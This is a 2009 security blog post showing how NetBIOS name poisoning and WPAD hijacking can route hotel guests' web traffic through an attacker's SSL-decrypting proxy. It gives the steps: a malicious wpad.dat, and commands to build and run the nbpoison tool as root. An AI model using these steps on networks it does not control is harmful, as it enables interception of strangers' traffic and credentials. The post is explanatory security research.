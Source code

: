 ```yaml
---
id: 357
title: 'Pwning hotel guests'
date: '2009-11-19T22:20:14-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=357'
permalink: '/?p=357'
---
```


Greetings everybody!

I spent a good part of the past month traveling, which meant staying in several hotels, both planned and unplanned. There's nothing like having a canceled flight and spending a boring night in San Francisco! But hey, why be bored when you have a packet sniffer installed? :)

Disclaimer: running a sniffer on somebody else's network may or may not be illegal; the only advice I can give is the guy down at Kinko's said it's okay.

Now, before I get to the fun, we need to step back and talk about NetBIOS name resolution a bit. My [very first post](http://www.skullsecurity.org/blog/?p=6) on this blog was actually about NetBIOS and my NBTool suite, and you may want to review it because this'll be a quick crash course.

## NetBIOS review

When Windows attempts to resolve domain names, it uses to DNS first. Assuming nobody has [hijacked their DHCP request](http://www.windowsecurity.com/articles/DHCP-Security-Part1.html) and fed them bad DNS servers, and nobody is performing [ARP spoofing](http://www.hackinthebox.org/modules.php?op=modload&name=News&file=article&sid=12868&mode=thread&order=0&thold=0) to redirect traffic, it'll go out to their DNS server. The DNS server, assuming it hasn't been [poisoned](http://en.wikipedia.org/wiki/DNS_cache_poisoning) or [hijacked](http://en.wikipedia.org/wiki/DNS_hijacking), will respond with the proper IP address. (It's a miracle anybody gets work done on the Internet, isn't it?)

If DNS fails, Windows tries [NetBIOS name resolution](http://en.wikipedia.org/wiki/NetBIOS#Name_service). It's this resolution that lets you type "ping FREDSBOX" and, if FREDSBOX is alive, it'll resolve. While useful on a trusted network (haha, trusted network...), this resolution really just amounts to a broadcast saying "Who has XXX?" The thoughtful servers on the network, unless they're legitimately named "XXX", look down and shuffle their feet, and the server named "XXX" will say "hey, that's me!" But what's stopping an attacker from also claiming to be "XXX"?

Nothing.

That's why, in a fateful moment of usefulness, I wrote [NBTool](http://www.skullsecurity.org/wiki/index.php/Nbtool).

## NBTool?

One of the tools included with NBTool, called nbpoison, will intercept requests and respond with a requested address. With the -c (or conflict) flag, it'll even inform other servers that they don't own a name. That might cause services to break, though, and some versions of Windows will pop up a warning when a conflict occurs. But such is life.

When you supply -c, you end up with traffic that looks like:

- FREDSBOX: (having just booted) Hey guys, just FYI, I'm FREDSBOX
- Attacker: No, sir, you are not; I am FREDSBOX
- FREDSBOX: k, sorry (from then on, FREDSBOX won't respond to his own name)

So anyway, I wrote that awhile ago, and had some fun showing off to our co-op students ("look! going to 'www.yahoo.colm' takes you to Google! Isn't that funny?" (their answer was inevitably "no")), but then I shelved it to work on [things people actually care about](http://nmap.org).

What I hadn't realized was, there are more fun things you can do! Let's have a look.

## Where'd that WPAD server go...?

One of the first things I noticed after running a packet capture in a hotel was this:  
![](/blogdata/WPAD.png)

I saw some workstations desperately trying to find a server called WPAD, and I couldn't get over how familiar WPAD looked. Word Press \[something\]? \[something\] Active Directory? Is it a blog thing? Bah!

So, I looked it up on the [Old Farmers Wikipedia](http://futurama.wikia.com/wiki/Old_Farmers_Wikipedia), and found it: Web Proxy Auto Discovery. Of course! This must be somebody's browser trying to find a proxy server. Wait... somebody's browser is broadcasting a request for a proxy server? And it's willing to trust people to tell it which proxy to use? Awesome!

Now, this is where I stopped. Despite what the guy at Kinko's said, I'm not comfortable with actually redirecting people's traffic. That wouldn't be nice at all, and I'm reasonably sure it steps over that legal line. But, here's what one *could* do...

### Step 1: Set up a logging proxy

[Burp Suite](http://portswigger.net/suite/) and [Paros](http://www.parosproxy.org/), among others, would work great. It's especially fun because they'll decrypt SSL for you, and evil let you modify requests/responses!

### Step 2: Set up a Web server

Set up a Web server (or a [netcat](http://netcat.sourceforge.net/) listener) that'll serve up a /wpad.dat file pointing to your logging proxy. I'm no expert on writing WPAD files, but I [found this one online](http://www.craigjconsulting.com/proxypac.html):

```
function FindProxyForURL(url, host)
{
  return "PROXY 192.168.100.123:8080";
}
```

### Step 3: Start poisoning requests

```
$ wget http://www.skullsecurity.org/downloads/nbtool-0.02.tar.gz
$ tar -xvvzf nbtool-0.02.tar.gz
$ cd nbtool-0.02
$ make
$ sudo ./nbpoison -s 192.168.100.123
```

(nbpoison has to run as root because it listens on UDP port 137)

As of the current version, there's no way to actually pick and choose domains; it's all or nothing. So, every NetBIOS request will evoke a response. That can be fun, of course, but at some point I'll add a domain name argument.

### Step 4: Watch the traffic

If all goes according to plan, anybody set to use auto-configured proxies will start using your proxy, and you can see what they're up to. And great times will be had by all!

## Other attacks

Hijacking the WPAD file is cool, but what else can you do?

Well, it turns out that any internal server that the computers are configured to use will send out NetBIOS requests, because, for obvious reasons, their internal servers aren't listed in DNS. That can include, but isn't limited to:

- Exchange (or other email) server
- File shares
- Instant messenger servers
- Proxy server
- Browser's homepage
- Time reporting
- Issue tracking
- Internal news feeds
- Development server
- etc.

If you start hijacking names and hosting Web servers, SMB servers, etc, you may start seeing interesting requests. You'll want to run Wireshark, as well, to see what else is trying to connect to you. It'll be a party!

## So, what's the big deal?

Yes, this is the key. What IS the big deal? So you can redirect somebody who's on the same subnet as you. Why not use ARP spoofing? DHCP poisoning? Other subnet-based attacks?

And that'd be a great question. This is yet another member of a long line of evil things you can do on a subnet. Not to mention scores of attacks against unsecured wireless!

The biggest advantage I see is that this attack is fairly quiet, keeping a very low profile. Somebody who isn't performing NetBIOS resolutions won't even know that somebody's out there, and somebody who is will probably get expected error pages when they DO attempt a request. Additionally, when it comes right down to it, there's a much smaller chance of screwing things up with NetBIOS poisoning than other LAN attacks.

Thanks for reading!